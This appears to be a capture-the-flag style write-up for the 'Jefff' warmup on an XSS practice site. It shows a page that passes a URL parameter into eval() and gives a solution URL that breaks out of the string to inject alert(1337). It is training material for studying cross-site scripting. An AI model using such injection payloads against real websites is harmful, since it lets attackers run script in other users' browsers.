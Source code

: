 # Jefff - Exercise 2

[Problem](https://xss.pwnfunction.com/warmups/jefff/)

[Solution](https://sandbox.pwnfunction.com/warmups/jefff.html?jeff=hello%22%3Balert(1337)%3Bvar%20hi%20=%20%22hello)

## Explanation

Here is the part to inject JS

```html
<h2 id="maname"></h2>
<script>
    let jeff = (new URL(location).searchParams.get('jeff') || "JEFFF")
    let ma = ""
    eval(`ma = "Ma name ${jeff}"`)
    setTimeout(_ => {
        maname.innerText = ma
    }, 1000)
</script>
```

Notice that there is a *eval()* function being called which uses a parameter *jeff* (or *JEFFF*). Thus provide a value for jeff such that you can an additional alert statement.
set jeff with `hello"%3Balert(1337)%3Bvar hi = "hello`. Then the eval function will be called with input `ma = "Ma name hello";alert(1337);var hi = hello`. Three statements (each seperated with a semicolon are executed)

### This might be useful

- [Evaluating Multiple Parameters in JS](https://iq.js.org/questions/javascript/how-to-evaluate-multiple-expressions-in-one-line)
- %3B is the HTML URL Encoding for semicolon
